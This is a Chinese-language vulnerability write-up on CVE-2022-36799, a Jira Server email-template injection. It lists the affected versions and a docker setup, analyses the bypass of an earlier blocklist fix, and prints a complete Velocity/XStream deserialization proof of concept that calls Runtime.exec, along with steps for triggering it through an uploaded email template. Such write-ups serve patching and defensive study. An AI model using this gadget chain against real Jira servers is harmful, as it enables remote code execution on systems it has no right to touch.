




- [CVE-2022-36799 Jira Server 模板注入](#cve-2022-36799-jira-server-模板注入)
  - [影响版本](#影响版本)
  - [环境搭建](#环境搭建)
  - [原理分析](#原理分析)
  - [漏洞复现](#漏洞复现)
  - [补丁](#补丁)
  - [参考](#参考)
# CVE-2022-36799 Jira Server 模板注入
## 影响版本
Affected versions:
version < 8.13.19
8.14.0 ≤ version < 8.20.7
8.21.0 ≤ version < 8.22.1
## 环境搭建
run --name="jira819" -d -p 8080:8080 atlassian/jira-software:8.19.0-RC01-ubuntu-jdk8
## 原理分析
公告中说明是邮件模板注入,其实还是CVE-2021-39115的黑名单绕过,在公告中写了防止利用Xstream库进行RCE.  

而JIRA使用的Xstream库是1.4.17版本,而Xstream的1.4.17版本的RCE很多.  

根据CVE-2021-39115的思路还是利用jirautils类的`loadComponent`方法来获取一个Xstream实例即可,然后后续其实就是调用其fromxml()来利用Xstream的漏洞进行rce了.
## 漏洞复现
最后用的一个jdk8 292环境的jira使用CVE-2021-39144的POC进行测试.
poc:
```
<html lang="en">
<label>
    #set($payload="<java.util.PriorityQueue serialization='custom'>
  <unserializable-parents/>
  <java.util.PriorityQueue>
    <default>
      <size>2</size>
    </default>
    <int>3</int>
    <dynamic-proxy>
      <interface>java.lang.Comparable</interface>
      <handler class='sun.tracing.NullProvider'>
        <active>true</active>
        <providerType>java.lang.Comparable</providerType>
        <probes>
          <entry>
            <method>
              <class>java.lang.Comparable</class>
              <name>compareTo</name>
              <parameter-types>
                <class>java.lang.Object</class>
              </parameter-types>
            </method>
            <sun.tracing.dtrace.DTraceProbe>
              <proxy class='java.lang.Runtime'/>
              <implementing__method>
                <class>java.lang.Runtime</class>
                <name>exec</name>
                <parameter-types>
                  <class>java.lang.String</class>
                </parameter-types>
              </implementing__method>
            </sun.tracing.dtrace.DTraceProbe>
          </entry>
        </probes>
      </handler>
    </dynamic-proxy>
    <string>touch /tmp/poc</string>
  </java.util.PriorityQueue>
</java.util.PriorityQueue>")
#set($XStream = $jirautils.loadComponent('com.thoughtworks.xstream.XStream',$i18n.getClass()))
$XStream.fromXML($payload)
</label>
<input value=$XStream>
</html>
```
替换邮件模板的通用模板如emailfromadmin.vm等的内容为poc内容,然后重新上传邮件模板覆盖发送邮件触发即可.  


## 补丁
拉黑xstream

## 参考
https://jira.atlassian.com/browse/JRASERVER-73582